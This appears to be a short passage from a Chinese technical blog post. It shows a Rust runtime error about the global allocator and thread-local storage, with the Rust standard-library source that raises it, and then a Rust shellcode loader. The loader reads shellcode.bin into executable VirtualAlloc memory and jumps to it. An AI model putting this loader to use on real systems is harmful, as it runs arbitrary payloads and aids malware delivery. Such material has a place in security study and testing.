执行一下

```bash
fatal runtime error: global allocator may not use TLS
```

该错误来自于

```rust
// https://github.com/rust-lang/rust/blob/master/library/std/src/sys/thread_local/destructors/list.rs
pub unsafe fn register(t: *mut u8, dtor: unsafe extern "C" fn(*mut u8)) {
    let Ok(mut dtors) = DTORS.try_borrow_mut() else {
        // This point can only be reached if the global allocator calls this
        // function again.
        // FIXME: maybe use the system allocator instead?
        rtabort!("the global allocator may not use TLS with destructors");
    };

    guard::enable();

    dtors.push((t, dtor));
}
```

暂时按下不表， 接下来是 `rust` 环境

```rust
use std::fs::File;
use std::io::{self, Read};
use std::mem;
use std::ptr;
use std::os::windows::ffi::OsStrExt;
use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::winnt::{MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE};

fn main() -> io::Result<()> {
    let mut file = File::open("shellcode.bin")?;
    let mut shellcode = Vec::new();

    file.read_to_end(&mut shellcode)?;

    let exec = unsafe {
        VirtualAlloc(
            ptr::null_mut(),
            shellcode.len(),
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE,
        )
    };

    if exec.is_null() {
        eprintln!("内存分配失败");
        return Err(io::Error::new(io::ErrorKind::Other, "内存分配失败"));
    }

    unsafe {
        ptr::copy_nonoverlapping(shellcode.as_ptr(), exec as *mut u8, shellcode.len());
        let func: fn() = mem::transmute(exec);
        func();
    }

    Ok(())
}
```
